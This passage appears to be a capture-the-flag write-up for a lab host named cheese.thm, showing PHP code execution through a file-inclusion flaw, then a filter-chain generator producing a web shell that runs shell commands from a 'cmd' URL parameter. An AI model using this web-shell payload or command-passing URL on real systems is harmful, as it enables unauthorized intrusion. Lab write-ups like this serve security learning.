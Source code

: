 ![php-info()](images/php_info.png)

PHP code executed successfully! We have code execution.


2. Uploading Web Shell:

Next, I generated a simple web shell payload:

```bash
└─$ python3 php_filter_chain_generator.py --chain '<?= `$_GET[cmd]`?>'

[+] The following gadget chain will generate the following code : <?= `$_GET[cmd]`?> (base64 value: PD89IGAkX0dFVFswXWA/Pg)

[PAYLOAD]
```
Now we can pass commands via `cmd` parameter:
`http://cheese.thm/secret-script.php?cmd=id&file=[PAYLOAD]`
